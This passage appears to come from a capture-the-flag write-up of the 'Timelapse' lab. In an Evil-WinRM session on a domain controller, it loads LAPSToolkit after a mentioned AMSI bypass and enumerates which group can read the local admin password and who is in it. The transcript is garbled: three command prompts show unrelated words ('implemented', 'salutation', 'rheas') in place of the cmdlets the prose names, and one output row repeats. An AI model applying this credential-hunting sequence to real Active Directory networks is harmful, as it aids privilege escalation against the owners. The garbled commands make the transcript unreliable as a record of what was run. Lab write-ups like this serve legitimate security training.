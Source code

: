 After completing either obsfucation or AMSI bypass, we can import and utilize LAPSToolkit.


Here we import the module and call 'Get-LAPSComputers'
```
*Evil-WinRM* PS C:\Users\legacyy\Documents> . .\ltk.ps1
*Evil-WinRM* PS C:\Users\legacyy\Documents> implemented
Enter PEM pass phrase:

ComputerName       Password Expiration
------------       -------- ----------
dc01.timelapse.htb          04/07/2022 00:31:06
```

Next, calling 'Find-LAPSDelegatedGroups'

We notice only one AD group can dump the admin password via LAPS, 'LAPS_Readers'. 

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> salutation
Enter PEM pass phrase:

OrgUnit                                    Delegated Groups
-------                                    ----------------
OU=Domain Controllers,DC=timelapse,DC=htb  TIMELAPSE\LAPS_Readers
OU=Servers,DC=timelapse,DC=htb             TIMELAPSE\LAPS_Readers
OU=Database,OU=Servers,DC=timelapse,DC=htb TIMELAPSE\LAPS_Readers
OU=Web,OU=Servers,DC=timelapse,DC=htb      TIMELAPSE\LAPS_Readers
OU=Dev,OU=Servers,DC=timelapse,DC=htb      TIMELAPSE\LAPS_Readers
OU=Dev,OU=Servers,DC=timelapse,DC=htb      TIMELAPSE\LAPS_Readers
```

Lastly, calling 'Find-AdmPwdExtendedRights'

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> rheas
Enter PEM pass phrase:

ComputerName       Identity               Reason
------------       --------               ------
dc01.timelapse.htb TIMELAPSE\LAPS_Readers Delegated
```

Lets identify the members of group TIMELAPSE\LAPS_Readers.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> Get-ADGroupMember -Identity LAPS_Readers | Select-Object name, objectClass,distinguishedName
Enter PEM pass phrase:

name       objectClass distinguishedName
----       ----------- -----------------
svc_deploy user        CN=svc_deploy,CN=Users,DC=timelapse,DC=htb
```

### Bloodhound
